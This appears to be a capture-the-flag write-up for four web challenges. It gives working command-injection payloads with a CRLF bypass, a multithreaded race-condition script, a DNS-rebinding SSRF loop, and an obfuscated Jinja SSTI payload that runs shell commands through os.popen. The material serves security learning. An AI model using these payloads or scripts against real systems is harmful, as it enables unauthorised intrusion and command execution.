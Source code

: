# Traveler
## Solution
Command injection: 

![img](./img/1.png)

We can bypass with ``%26`` (aka ``&``) or with ``%0d%0a``(aka CRLF) work as well :

``payload``: ``Single%0d%0als%20-lsa`` 

![img](./img/2.png)

Read flag: ``Single%0d%0acat%20/flag.txt``

![img](./img/3.png)

# Quiz
## Solution 
This chall is all about race condition when submitting answers

Reference: [here](https://bizflycloud.vn/tin-tuc/race-condition-la-gi-lam-sao-de-khai-thac-20180116193609705.htm)

So the solution here is to create multi thread and send the request at the same time

```
#!python3
import requests
from multiprocessing.dummy import Pool as ThreadPool
cookies={
    'INGRESSCOOKIE':'1647109930.516.13470.455133|df18c7a37b01201195c3bf2ff6aa23c8',
    'connect.sid':"s%3AI0J6D-OLWqntaWNpYGx_lQsEcNBtDW1m.WiioLQU6iuskoVWIDBjbDHaXIyuDLpIg%2FpakO5eIWYM"
}
json_data = {"questionNumber":2,"answer":"10"}

def runner(d):
	r1 = requests.post('https://quiz.ctf.intigriti.io/submitAnswer', cookies=cookies,json=json_data)
	r2 = requests.get('https://quiz.ctf.intigriti.io/user', cookies=cookies)

pool = ThreadPool(40)
result = pool.map_async(runner,range(40))
r2 = requests.get('https://quiz.ctf.intigriti.io/buyFlag', cookies=cookies)
print(r2.text)

#Congratulations! Here is your flag: 1337UP{this_is_a_secret_flag}
```

# Dead Tube
## Solution
DNS Rebinding:

Use [this](https://lock.cmpxchg8b.com/rebinder.html) to gererate host name for dns rebinding between 127.0.0.1 and ``https://deadtube.ctf.intigriti.io/`` (aka ``35.205.87.74``)

hostname: ``7f000001.23cd574a.rbndr.us``

```
#!python3

import requests

data={
    'link':'http://7f000001.23cd574a.rbndr.us:8080/flag'
}
url='https://deadtube.ctf.intigriti.io/preview'
header={
    'Content-Type': 'application/x-www-form-urlencoded'
}
for i in range(1000):
    r=requests.post(url,headers=header,data=data)
    if "1337" in r.text:
        print(r.text)
        break
```

flag: 1337UP{SSRF_AINT_GOT_NOTHING_ON_M3}

# 1 truth, 2 lies
## Solution

sourcecode: [here](./src/app.py)

SSTI: I use this payload to bypass as much as i possibly can:

``{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat *')|attr('read')()}}"
``

script:

```
#!python3

import requests

url="https://1truth2lies.ctf.intigriti.io/"

path="""
 ▄█    ▄▄▄▄███▄▄▄▄         ▄█    █▄  ███    █▄   ▄█       ███▄▄▄▄      ▄████████    ▄████████    ▄████████ ▀█████████▄   ▄█          ▄████████ 
███  ▄██▀▀▀███▀▀▀██▄      ███    ███ ███    ███ ███       ███▀▀▀██▄   ███    ███   ███    ███   ███    ███   ███    ███ ███         ███    ███ 
███▌ ███   ███   ███      ███    ███ ███    ███ ███       ███   ███   ███    █▀    ███    ███   ███    ███   ███    ███ ███         ███    █▀  
███▌ ███   ███   ███      ███    ███ ███    ███ ███       ███   ███  ▄███▄▄▄      ▄███▄▄▄▄██▀   ███    ███  ▄███▄▄▄██▀  ███        ▄███▄▄▄     
███▌ ███   ███   ███      ███    ███ ███    ███ ███       ███   ███ ▀▀███▀▀▀     ▀▀███▀▀▀▀▀   ▀███████████ ▀▀███▀▀▀██▄  ███       ▀▀███▀▀▀     
███  ███   ███   ███      ███    ███ ███    ███ ███       ███   ███   ███    █▄  ▀███████████   ███    ███   ███    ██▄ ███         ███    █▄  
███  ███   ███   ███      ███    ███ ███    ███ ███▌    ▄ ███   ███   ███    ███   ███    ███   ███    ███   ███    ███ ███▌    ▄   ███    ███ 
█▀    ▀█   ███   █▀        ▀██████▀  ████████▀  █████▄▄██  ▀█   █▀    ██████████   ███    ███   ███    █▀  ▄█████████▀  █████▄▄██   ██████████ 
                                                ▀                                  ███    ███                           ▀"""

payload=r"{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat *')|attr('read')()}}"

# payload=r"{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat /*')|attr('read')()}}"
header={
    'Content-Type': 'application/x-www-form-urlencoded'
}
r=requests.get(url+path+'?input='+payload)
print(r.text)
```

``flag:flag{1ea5n_h0w_vu1n_h1ppen_and_wh1t_l1ne_m1ke_vu1n!!!}``